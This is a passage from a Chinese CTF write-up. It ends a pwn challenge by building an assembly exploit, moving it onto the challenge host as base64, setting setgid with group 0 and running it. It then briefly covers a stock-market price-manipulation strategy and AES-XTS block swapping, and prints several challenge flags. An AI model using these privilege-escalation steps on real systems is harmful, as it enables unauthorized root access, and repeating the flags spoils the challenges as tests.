 然后在本地找个 Linux 64 位环境（我用的 kali 虚拟机），编译并链接，顺带测试一下可用，接着就转成 base64 复制到题目环境里面操作即可：

```sh
# 本机执行，以获取程序
nasm -f elf64 -o pwn.o pwn.asm
ld -o pwn pwn.o
cat pwn | base64  # 注意复制到文本编辑器去掉换行

# 题目环境执行
cd /tmp
vi pwn_b64  # 然后把 base64 数据粘贴进去
base64 -d pwn_b64 > pwn
chmod 777 pwn
chgrp 0 pwn
chmod g+s pwn
./pwn
```

最后得到 `flag{1ol-chang1n9-g5OuPs-WITH_s0ID}`。

## Algorithm

算法区今年没空看了，随便做了点，剩下的可能其实花时间也能做出来。

### 股票之神

> 本题第二、三小题在二阶段做出。

#### 我是巴菲特

这题其实花时间就能做出来，AI 已经能给个大概了，稍微改改就好。但是在一阶段结束前，我没时间了（其实是懒了），随便弄了个第一问。后面有空了就做出来了，我这边使用的，或者说 AI 帮我想的策略很简单，手上的钱全部小量分批连续买入，价格就会疯狂上升，然后过一会儿价格稳定后，小量分批连续卖出，价格就会疯狂下降。这样一来一回能赚到不少，反复来个几次就行，至于 Truth 看机会用就好。

不过 AI 帮我写的脚本还有点问题，改了改，似乎每次结果也不太一样，最终资金够了后得到 `flag{W0w_YOu_4Re_InVEStMEnT_MaSTer}`。

#### 我是股票女王

见前文，得 `flag{YOUr_S0Urces_aRe_QuiTe_exTeN51ve}`。

#### 我是股票之神

见前文，得 `flag{p1ease_C0me_siT_1N_tHe_WHitE_H0USE}`。

### ~~我放弃了一 key 到底~~

听说不难，但完全不想看了。

### 千年讲堂的方形轮子 II

> 本题第三小题在二阶段解出。

#### Level 1

题面给的资料一般，这个[资料](https://fishmwei.github.io/2022/12/01/2022-20221201-aes-xts-weekly/)更好一点，反正看了一会就知道这个 AES-XTS 它是分组算法（或者问 AI 它也会告诉你），可以拼接多个不同结果（当然要在同一个组里面才能替换），利用用户名构造特殊的文本。
